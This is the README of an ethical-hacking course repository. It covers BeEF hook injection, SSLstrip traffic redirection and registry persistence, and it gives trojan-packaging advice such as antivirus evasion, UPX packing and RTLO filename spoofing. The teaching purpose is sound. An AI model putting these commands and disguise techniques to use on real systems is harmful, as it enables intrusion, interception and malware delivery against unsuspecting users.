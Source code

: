 # Ethical Hacking Course
Repository for all the code related to Learn Python &amp; "Ethical Hacking From Scratch" course.  
All the work is done on Kali Linux, using both Python 2.7 and 3.x version.

## Requirements
Besides the needed libraries stated in *requirements.txt* file, BeEF framework for Kali Linux is required. Install it with the following command:  
`sudo apt-get install beef-xss`

If SSLstrip is not provided with your distribution of Kali Linux virtual machine, install it from the original source: [moxie0/sslstrip](https://github.com/moxie0/sslstrip "A tool for exploiting Moxie Marlinspike's SSL \"stripping\" attack.").

## Guidelines

### Operating system

#### Kali Linux
To enable **IP forwarding**, enter the following command into the terminal:  
`echo 1 > /proc/sys/net/ipv4/ip_forward`

To create **net filter queue** (*iptables*), enter the following command:  
`iptables -I FORWARD -j NFQUEUE --queue-num <number>`,  
where the default `<number>` is `0`.

For local testing, use both `INPUT` and `OUTPUT` chain.

To enable a basic HTTP server, type:  
`sudo service apache2 start`

#### Windows
To add an executable to Windows Registry to make the file run on the system start, the following command can be used:  
`reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v <name_of_reg> /t REG_SZ /d <"path_to_exe">`  

### Python
You can terminate all running python programs by typing `killall python` in the terminal.  

On Windows, while having both Python 2 and 3 installed, we can force to run either version by running:  
`py -<version> <name_of_script_file>`  
where `<version>` can be '2' or '3'.

### BeEF
The code we want to inject into our victim is:  
`<script src="http://<IP>:3000/hook.js"></script`,  
where `<IP>` is the IP of your host server containing *hook.js*.

If you are using a HTTP server, make sure insert the code snippet above
into */var/www/html/index.html*.

### SSLstrip
To use SSLstrip, use the following command to enable it in *iptables*:  
`iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000`

This makes so that all traffic coming to port 80, which is the default port of HTTP websites,
will instead be redirected to port 10000, which is the port the SSLstrip tool uses.

In order to use packet-modifying tools together with SSLstrip, they must be configured to watch
for port 10000 instead of 80 and commands below need to be entered into Linux shell:

`iptables -I INPUT -j NFQUEUE --queue-num <number>`  
`iptables -I OUTPUT -j NFQUEUE --queue-num <number>`

### Executable files

#### Converting scripts into executables
It's important to note we focus on creating Windows executables, since for both Linux and macOS,
the problem becomes trivial, since both operating systems have Python installed by default,
therefore allowing us to directly run Python scripts.
Another problem is that on Linux, obfuscating such executable file is almost impossible - the user has to grant
"executable" permissions through chmod anyway, meaning user must be pretty techie already.
The good way to send a trojan would be to just send a Python script that the user wants,
with our malicious software at the top of it. The user *still* could just check our source code though.
On macOS however, it's easier to deal with concealing the file since there are no file extensions displayed.  
Despite all those differences between systems, pyinstaller should work on each one of them anyway.
##### On Windows
In order to package Python scripts into executable files, you need to have "pyinstaller" installed
 and you have to run the following command:  
`pyinstaller <script_name.py> --onefile --noconsole`  
* You might need to use a path to pyinstaller instead, if it's not added to PATH.  
* `--onefile` argument ensures all the required libraries and files are put into **single** executable.  
* `--noconsole` argument disables console, so when we run the program, no terminal shows up. Please note that some
Python scripts may require "stdin", "stdout" and "stderr" to be handled properly (it is handled in our program).  
* The created executable can be found in the "dist" folder.  
* To package multiple files together with the Python script (used for creating trojans), use:  
`--add-data "abs/path/to/file;."`  
This is **especially useful** when creating trojans.
The dot means the file will be stored (after running) in a default temp directory.
Can be changed to directory of preference.  

##### On Linux
If you need to create .exe file from a Linux machine (not recommended - it's better to do it natively),
you need a Python interpreter in it's Windows version. In order to do that, Wine is required
(should be installed by default on Kali Linux).  
After you've got both Python downloaded and Wine installed, type in the following command:  
`wine msiexec /i <python_installer_file>`  
* `msiexec` argument states that we are using a .msi file.  
* `/i` flag means that we want to install said file.  

After the Python installation has been completed, you can now run the interpreter in Windows version using:  
`wine python.exe -m pip install <library>` while in in `.wine/drive_c` and using `pyinstaller` as `<library>`.  
Just like on Windows, the pyinstaller can be found in `drive_c/PythonXX/Scripts` folder.  
Keep in mind that you need to have installed all the libraries your Python scripts use before you can package them.  
Similarly to Windows, in order to package the scripts, the following command needs to be typed in:  
`wine .wine/drive_c/PythonXX/Scripts/pyinstaller.exe <script_name.py> --onefile --noconsole`  
As you can see, this time we do type the whole path to `pyinstaller.exe`.  
<*I'm not sure if it's needed to, perhaps Wine can also simulate adding exe files to PATH.*>  
If you have multiple Python files used in your program, just remember to package the **main** file.
Pyinstaller will include imported libraries and files accordingly.  

#### Avoiding executables detection
To avoid detection of your .exe files by an Antivirus software, it's recommended to:  
* Use unique source code that possibly might not be yet indexed as malicious.  
* Use a behavior that will trick AV emulation of your code (i.e useless memory allocation, time delay)  

To check whether or not your program is detectable by antiviruses,
you can use services like [NoDistribute](https://nodistribute.com/ "Online virus scanner without results distribution.")
(doesn't share results with AVs' companies)
or [VirusTotal](https://www.virustotal.com/) (shares the results, thus contributing to better IT security).  
Additionally, you can compress your executables to make it even more obfuscated to antiviruses.
Use [UPX](https://github.com/upx/upx "UPX - The Ultimate Packer for eXecutables") for that purpose.  

In order to further our hiding measures, it's recommended to change the icon of our file.
Use [Iconfinder](https://www.iconfinder.com/) to find such icons
and [Easyicon](https://www.easyicon.net/language.en/covert/) to convert them appropriately.
Next, while using pyinstaller, make sure to add `--icon path\to\icon.ico` argument to package .exe with the given icon.  

Last but not least, spoofing the file extension. The trick is based on the character called "Right-to-left Override",
which changes the text orientation to start from right
(this functionality is used by few languages like Hebrew or Arabic).
You can find this character in Characters app on Kali Linux.
This trick can be used like this:  
```text
research-on-human-reflexes.exe
research-on-human-refl‮fdp.exe
```
Remember that such file needs to be compressed into a .zip file or similar,
since direct download will cause this character to be removed in the process.  

## Tips & Tricks
* It seems that *netfilterqueue* does not work on Python 3.x.  
* To listen to incoming connections without using custom listener for reverse_backdoor.py,
you can use `nc -vv -l -p <port_number>`.  
* You can find registries associated with running programs on system startup in:  
`Computer\HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run`.  
* It's best to find a good, extensive list of potential subdomain names, directories and files
on the web and use it instead of creating your own that most likely won't be as effective.  
* You **should** test your crawler on your own machine (such as Metasploit),
since such action against third-party server is most likely illegal in most of the countries.
* Remember to crawl websites responsibly.
Refer to `robots.txt` file, do not throttle the server you are crawling and preferably,
ask the owner of the server for permission. It's highly recommended to use Metasploitable machine for those purposes.  



